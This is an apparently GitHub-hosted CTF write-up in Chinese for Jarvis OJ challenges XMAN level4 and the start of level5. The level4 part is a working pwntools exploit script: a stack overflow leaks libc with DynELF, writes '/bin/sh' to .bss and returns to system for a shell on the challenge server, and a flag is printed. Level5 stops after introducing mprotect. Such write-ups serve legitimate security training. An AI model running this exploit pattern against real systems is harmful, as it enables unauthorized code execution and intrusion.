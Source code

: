   

* #### [XMAN]level4

   ![23](https://raw.githubusercontent.com/AiDaiP/images/master/Jarvis%20OJ/23.png)

    ![24](https://raw.githubusercontent.com/AiDaiP/images/master/Jarvis%20OJ/24.png)

   栈溢出，ret2libc

   先通过write搞到system地址，没给出libc那就用DynELF

   搞到地址之后再次溢出，先调用read在bss段写入/bin/sh，返回到system执行

   ```python
   from pwn import *
   r = remote('pwn2.jarvisoj.com', 9880)
   elf = ELF('./level4')
   padding = 'a' * (0x88 + 0x4)
   write_addr = elf.plt['write']
   main_addr = elf.symbols['main']
   read_addr = elf.plt['read']
   
   def leak(addr):
   	payload = padding
   	payload += p32(write_addr)
   	payload += p32(main_addr)
   	payload += p32(1) + p32(addr) + p32(4)
   	r.sendline(payload)
   	leak_addr = r.recv(4)
   	return leak_addr
   
   d = DynELF(leak,elf = ELF('./level4'))
   system_addr = d.lookup('system','libc')
   print(hex(system_addr))
   
   bss_addr = elf.bss()
   payload1 = padding
   payload1 += p32(read_addr)
   payload1 += p32(system_addr)
   payload1 += p32(0) + p32(bss_addr) + p32(8)
   payload1 += p32(bss_addr)
   
   r.sendline(payload1)
   r.sendline('/bin/sh\0')
   r.interactive()
   #CTF{882130cf51d65fb705440b218e94e98e}
   ```

   

* #### [XMAN]level5

   假设system和execve函数被禁用 

   ```c
   //mprotect() 
   #include <unistd.h>
   #include <sys/mmap.h>
   int mprotect(const void *start, size_t len, int prot);
   
   /*
   把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。
   */
   ```
